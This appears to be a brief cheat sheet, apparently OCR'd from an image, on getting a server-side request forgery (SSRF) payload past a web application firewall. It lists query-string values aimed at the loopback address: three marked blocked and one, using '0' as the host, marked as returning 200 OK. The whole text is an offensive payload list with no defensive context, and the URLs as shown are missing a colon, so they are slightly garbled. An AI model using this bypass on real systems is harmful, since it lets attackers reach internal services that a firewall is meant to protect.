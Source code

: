 # SSRF WAF bypass

## blocked

>?SSRF=http//localhost

## blocked

>?SSRF=http//127.0.0.1

## blocked

>?SSRF=http//0.0.0.0

## 200 OK

>?SSRF=http//0

